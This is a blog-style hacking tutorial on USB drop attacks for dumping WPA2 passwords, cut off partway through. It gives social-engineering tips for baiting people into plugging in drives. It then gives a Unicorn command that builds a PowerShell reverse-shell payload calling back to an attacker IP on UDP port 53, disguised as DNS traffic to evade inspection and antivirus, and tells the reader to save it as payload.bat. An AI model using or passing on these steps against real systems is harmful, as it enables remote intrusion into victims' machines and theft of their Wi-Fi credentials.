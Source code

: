 ```yaml
---
layout: post
title: "WPA2 Password Dump w/ USB Drop Attacks (& Jedi Mind Tricks)"
excerpt: "A long time ago, in a galaxy far, far away ... a study was conducted that involved three hundred malicious USB drives being dropped by researchers on a university campus in Illinois. Nearly 50% of the USB drives were picked up, and at least one file on each USB drive was opened."
categories: [publication,write-up]
modified: 2018-01-19
---
```


A long time ago, in a galaxy far, far away ... [a study was conducted](https://elie.net/blog/security/concerns-about-usb-security-are-real-48-percent-of-people-do-plug-in-usb-drives-found-in-parking-lots) that involved three hundred malicious USB drives being dropped by researchers on a university campus in Illinois. Nearly 50% of the USB drives were picked up, and at least one file on each USB drive was opened.

The [data showed](https://elie.net/static/images/images/concerns-about-usb-security-are-real-48-percent-of-people-do-plug-in-usb-drives-found-in-parking-lots/influce-of-USB-key-labeling.png) that attaching keys to the USB's keyring increased the likeliness of the flash drive being inserted into a computer. The presence of keys, no doubt, reinforced the belief that the keys and USB drive were lost and not placed on the ground by a hacker. The data also suggests that USB drives labeled "Pictures" or "Winter Break Pictures" are more likely to be inserted by the victim. The addition of keys and label is something to consider when performing USB drops.

_Note: At the time of this publication, this attack was performed against a Windows 10 Enterprise machine with Avast antivirus installed. It has not been tested in 2020._

### Clone the Unicorn Repository

Unicorn is an excellent tool for generating sophisticated payloads capable of [bypassing antivirus software](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-create-undetectable-payload-part-1-bypassing-antivirus-software-0185055/). After cloning the [Unicorn repository](https://github.com/trustedsec/unicorn), change into the `unicorn/` directory, and generate a payload.

```
$ python unicorn.py windows/shell/reverse_udp <ATTACKER_IP> 53
```

This payload will create a reverse UDP connection (`reverse_udp`) to the attacker's IP address on port 53. The usage of UDP on port 53 is done in an effort to further disguise the payload and its network activity. Anyone inspecting internet traffic transmitting to and from the compromised Windows computer may confuse the packets for ordinary DNS activity. It won't make it impossible to discover the nefarious packets, but it may aid in evading deep packet inspection (DPI).

Use `cat` to view the newly created `powershell_attack.txt` file. Highlight the entire PowerShell command and save it to a Windows 10 machine with the filename "payload.bat."
